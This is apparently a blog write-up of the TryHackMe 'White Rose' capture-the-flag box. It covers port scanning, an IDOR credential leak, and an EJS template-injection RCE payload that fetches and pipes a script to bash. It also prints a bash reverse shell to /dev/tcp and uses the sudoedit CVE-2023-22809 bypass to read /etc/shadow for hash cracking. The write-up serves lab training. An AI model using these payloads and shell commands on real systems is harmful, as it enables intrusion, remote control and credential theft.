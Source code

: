 ```yaml
---
layout: post
title: White Rose (TryHackMe)
date: 2025-04-19
categories: [CTF, TryHackme]
tags: [SSTI, Sudo]
---
```


### Nmap
```
nmap -p- -T4 <Target-IP> # This will scan all the 65535 port.

nmap -A -p 22,80 -T4 <Target-IP> -oN WhiteRose_Nmap_result # From the above cmd output we can run the 2 ports in Aggressive mode.
```
- Why i didn't ran the "-A" scan in the first command itself it is because scanning all 65535 ports in Aggressive mode takes more time and it is waste of time. That's the reason i ran the results of the first cmd to the second.
- If you don't feel like doing this much we can utilize a tool called rustscan this will automate the above process.

### Rustscan

```
rustcan -a <Target-IP> -- -A -oN WhiteRose_nmap_result

#Cmd Breakdown

-a will scan for all ports
-- will pass the rustscan output to the nmap
-A aggressive mode in Nmap
-oN To save the output
```


### Nmap scan Result
```
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 60 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)

```
Given creds from the challange `Olivia Cortez:olivi8`

# Enumeration

## HTTP (80)

### Dirsearch
```
dirsearch -u http://<target-IP> 
```

- Nothing Intresting

### Vhost Fuzzing

```
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 167ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
```

### admin.cyprusbank.thm

- Login page 
- `Olivia Cortez:olivi8` Using this credentials we can login

![Admin_panel](https://c00lrabbit.github.io/assets/Images/white-rose/WhiteR-Adm-panel.png){: .center-image }

## IDOR found on msg section in the URL
![IDOR In msg](https://c00lrabbit.github.io/assets/Images/white-rose/IDOR-Msg.png){: .center-image }

```
Found these creds using IDOR

Gayle Bev : <REDECTED>
```

Since Gayle is admin we can login as admin using these creds

## Found SSTI in `/settings` 

![ejs-vuln](https://c00lrabbit.github.io/assets/Images/white-rose/ejs-vuln.png){: .center-image }
- We found ejs and found a RCE about that https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

```
# SSTI Payload
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000');s
```
- We got a hit in our python server

![Python-server](https://c00lrabbit.github.io/assets/Images/white-rose/python-server.png)

Shell.sh
```bash
bash -i >& /dev/tcp/10.17.X.X/9001 0>&1
```

payload
```
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.X.X:8000/shell.sh|bash');s
```
- we got a shell and user flag

# Privilege Escalation

```bash
sudo -l

(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

sudoedit --v
Sudo version 1.9.12p1

```

#### Sudo version 1.9.12p1 leads to a vulnerability

https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis

## Exploit

#### To get the root Hash
```
export EDITOR="vi -- /etc/shadow"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
- After running this we can get the root hash then we can crack it through hashcat

```bash
hashcat -a 0 -m 3200 root-hash.txt rockyou.txt
```


#### To get the root flag
```
export EDITOR="vi -- /root/root.txt"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- We got the root flag

## Conclusion

- WhiteRose is inspired from "Mr.Robot" Series, This box gives basic knowledege of SSTI(Server Side Template Imjection) and Priexc using Sudo.
- Most of us will ignore the sudo to check for vuln ("Including me"). This box teach us to check everything.
- Overall it is a stright forward enjoyable box which i like.

## As Heath aka TCM said "Enumeration is key to success"
